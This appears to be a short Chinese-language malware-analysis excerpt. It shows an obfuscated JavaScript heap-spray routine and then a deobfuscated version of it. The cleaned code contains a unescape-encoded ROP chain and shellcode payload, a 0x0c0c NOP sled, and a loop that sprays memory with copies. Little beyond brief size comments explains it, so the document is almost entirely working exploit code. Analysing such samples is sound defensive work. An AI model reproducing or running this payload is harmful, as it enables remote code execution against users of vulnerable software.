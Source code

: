 ```
jNkWdKUuDEKJZKHqagzYNJCdeNWgKoyaXIpylAATweCD = dDBGklMTnOsBpfJUpAasbVQDSwFtDtFjORYFvWHwmdRCAJzEj.substring(0, 65536/2);
while(jNkWdKUuDEKJZKHqagzYNJCdeNWgKoyaXIpylAATweCD.length < 0x80000) jNkWdKUuDEKJZKHqagzYNJCdeNWgKoyaXIpylAATweCD += jNkWdKUuDEKJZKHqagzYNJCdeNWgKoyaXIpylAATweCD;
MNPAvhsNTWhroaInAyrkSNVnaugrVjtWkeVpBGcRomrcMrEYpNPNoxuQmXDmdSiCmEpqsgaslO = jNkWdKUuDEKJZKHqagzYNJCdeNWgKoyaXIpylAATweCD.substring(0, 0x80000 - (0x1020-0x08) / 2);
var rYhuvzhnDOgwjmuwogDFLaqahCPBilftAtuBZIReEWBueZSyVCxpIHsNulycmb = new Array();
for (rQpazhpwmkoeBLCKCySORqPxKrdIwovXOnFknTABvarlNMNPlMZwiYemeaDLAvcuFAlmCZZTSkOqorail=0;rQpazhpwmkoeBLCKCySORqPxKrdIwovXOnFknTABvarlNMNPlMZwiYemeaDLAvcuFAlmCZZTSkOqorail<0x1f0;rQpazhpwmkoeBLCKCySORqPxKrdIwovXOnFknTABvarlNMNPlMZwiYemeaDLAvcuFAlmCZZTSkOqorail++) rYhuvzhnDOgwjmuwogDFLaqahCPBilftAtuBZIReEWBueZSyVCxpIHsNulycmb[rQpazhpwmkoeBLCKCySORqPxKrdIwovXOnFknTABvarlNMNPlMZwiYemeaDLAvcuFAlmCZZTSkOqorail]=MNPAvhsNTWhroaInAyrkSNVnaugrVjtWkeVpBGcRomrcMrEYpNPNoxuQmXDmdSiCmEpqsgaslO+"s";

```

我做了一些整理，得到下面的代码：

```
var code = unescape( '%u4141%u4141%u63a5%u4a80%u0000%u4a8a%u2196%u4a80%u1f90%u4a80%u903c%u4a84%ub692%u4a80%u1064%u4a80%u22c8%u4a85%u0000%u1000%u0000%u0000%u0000%u0000%u0002%u0000%u0102%u0000%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9038%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0000%u0000%u0040%u0000%u0000%u0000%u0000%u0001%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9030%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0022%u0000%u0000%u0000%u0000%u0000%u0000%u0001%u63a5%u4a80%u0004%u4a8a%u2196%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0030%u0000%ua8a6%u4a80%u1f90%u4a80%u0004%u4a8a%ua7d8%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0020%u0000%ua8a6%u4a80%u63a5%u4a80%u1064%u4a80%uaedc%u4a80%u1f90%u4a80%u0034%u0000%ud585%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u000a%u0000%ua8a6%u4a80%u1f90%u4a80%u9170%u4a84%ub692%u4a80%uffff%uffff%uffff%uffff%uffff%uffff%u1000%u0000%ucfd9%u8dbf%uc68a%ud9b0%u2474%u58f4%uc929%u49b1%ue883%u31fc%u1578%u7803%u6f15%u3a7f%ue658%uc380%u9899%u2609%u8aa8%u226e%u1a99%u66e4%ud112%u92a8%u97a1%u9464%u1d02%u9b53%u9093%u775b%ub357%u8a27%u1384%u4519%u52d9%ub85e%u0612%ub637%ub681%u8a3c%ub719%u8092%ucf22%u5797%u65d6%u8799%uf247%u3fd1%u5ce3%u3ec2%ubf20%u083e%u0b4d%u8bb4%u4287%uba35%u08e7%u7208%u51ea%ub54c%u2415%uc5a6%u3ea8%ub77d%ucb76%u1f60%u6bfc%ua141%uedd1%uad02%u7a9e%ub24c%uaf21%ucee6%u4eaa%u4729%u74e8%u03ed%u15aa%ue9b4%u2a1d%u56a6%u8ec1%u75ac%ua816%u11ee%u86db%ue210%u9173%ud063%u09dc%u58ec%u9794%u9feb%u6f8f%u5e63%u8f30%ua5ad%udf64%u0cc5%ub405%ub015%u1ad0%u1e46%uda8b%ude36%ub27b%ud15c%ua2a4%u3b5e%u48cd%uaca4%u8cf8%u23a4%u8e95%u2aa8%u0739%u264e%u41d1%udfd8%uc848%u7e92%uc794%u41de%ueb1e%u0f1f%u86d7%uf833%udd17%uaf6e%uc828%u5005%uf6bd%u078f%uf429%u60f6%u07f6%ufadd%u9d3f%u949e%u713f%u651f%u1b16%u0d1f%u7fce%u284c%uaa11%ue1e0%u5484%u5551%u3c0e%u805f%ue378%ue7a0%ud878%uce76%u28fe%u22fd%u41c3' );      // 650字节，325长度
var nop_string = unescape( "%u0c0c%u0c0c" );
while (nop_string.length + 20 + 8 < 65536)
    nop_string += nop_string;
block = nop_string.substring(0, (0x0c0c-0x24)/2);   // 3048 B
block += code;
block += nop_string;
temp = block.substring(0, 65536/2);         // 64 KB
while(temp.length < 0x80000)
    temp += temp;                          // 1 MB
data = temp.substring(0, 0x80000 - (0x1020-0x08) / 2);
var array_d = new Array();
for (i = 0; i < 0x1f0; i++)
    array_d[i] = data + "s";

```

